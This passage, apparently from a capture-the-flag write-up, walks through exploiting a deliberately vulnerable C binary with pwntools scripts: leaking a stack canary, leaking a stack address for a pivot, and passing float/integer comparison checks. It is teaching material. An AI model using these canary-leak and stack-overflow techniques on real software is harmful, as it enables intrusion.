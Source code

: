 ```python
offset = 0x18
payload = flat({offset:[]}, filler=b"\x41")
sa("> ", payload + b"\x41") # touch canary one byte
ru("A"*0x19)
canary = u64(r(7).ljust(8, b"\x00")) << 8
stack = u64(ru(". ").ljust(8, b"\x00"))
target = stack + 0xd8 #pivot to _start
sa("> ", payload + b"\x00") # Fix canary
```

Next, we'll ask for two inputs, where the values cannot be 0 and must be the same.

```c
printf("Now, give me two special numbers!\n>");
scanf("%f %lf", &a, &b);
getchar();
if (a == 0 || b == 0) {
printf("You're not allowed to input zero!\n");
exit(0);
}
if (strncmp((void *)&a, (void *)&b, 4) == 0) function2();
```
Just give `1 1` and enter `function2`.

```python
sla("> ", "1 1")
```

In `function2` there is an overflow and also checking if c is equal to 147 goes to function3

```c
void function2() { 
    long numbers[10]; 
    int c; 

    printf("What's the magic number?\n> "); 
    scanf("%f", (float *)&c); 
    getchar(); 
    if (c == 147) function3(numbers); 

    write(1, "I'm going to give you another chance to\nchange your numbers, what would you like to change it to\n> ", 99); 
    read(0, (void *)&numbers[0], 96); 
    write(1, "\nHaha just kidding, I'm out of ideas tbh...\n", 44);
}
```

To enter function3 just input 147 in float with struct `struct.unpack('!f', struct.pack('!I', 147))[0]`. 

```python
bits = 147
payload = struct.unpack('!f', struct.pack('!I', bits))[0]
sla("> ", str(payload).encode())
```
